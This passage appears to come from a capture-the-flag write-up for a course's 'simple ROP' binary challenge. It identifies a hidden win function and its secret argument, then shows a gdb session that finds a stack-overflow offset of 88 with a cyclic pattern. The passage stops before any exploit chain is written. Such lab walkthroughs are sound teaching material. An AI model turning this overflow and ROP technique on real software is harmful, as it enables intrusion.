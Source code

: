 So from reading the decompilation, we can tell that the first function is obviously the `win` func, but in addition, we see that it takes a parameter, which is compared against `sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is`. This tells us that we're going to need to most likely use ROP (return oriented programming) to create a chain of gadgets (instructions) to load it into memory since within the code, this function is never called. In addition, Ghidra also tells us the address of the win function (since the binary is stripped, Ghidra names functions FUN_<addr>). So `0x4016f5` is our `win` func.

Let's start off doing the same thing as the previous challenge, using a cyclic pattern to figure out an offset to control RSP.

```
$ gdb -q chall 
Reading symbols from chall...
(No debugging symbols found in chall)

gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  run
Starting program: /home/fbad/Documents/Git/CSE132-HW/pwn-simple-rop/chall 
=== Slug Security Technical Interview ===
welcome candidate! before we begin, please tell us your name....
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

[...]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd988│+0x0000: "laaaaaaamaaa"       ← $rsp
0x00007fffffffd990│+0x0008: 0x000000006161616d ("maaa"?)
0x00007fffffffd998│+0x0010: 0x00000000004017ae  →   push rbp
0x00007fffffffd9a0│+0x0018: 0x0000000100000018
0x00007fffffffd9a8│+0x0020: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/home/fbad/Documents/Git/CSE132-HW/pwn-simple-rop/[...]"
0x00007fffffffd9b0│+0x0028: 0x00007fffffffdb58  →  0x00007fffffffdf3b  →  "CLUTTER_IM_MODULE=ibus"
0x00007fffffffd9b8│+0x0030: 0x919b51f97047a5a4
0x00007fffffffd9c0│+0x0038: 0x0000000000000001
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x401860 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401860 → ret 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

gef➤  pattern search $rsp
[+] Searching for '6c61616161616161'/'616161616161616c' with period=8
[+] Found at offset 88 (little-endian search) likely
```
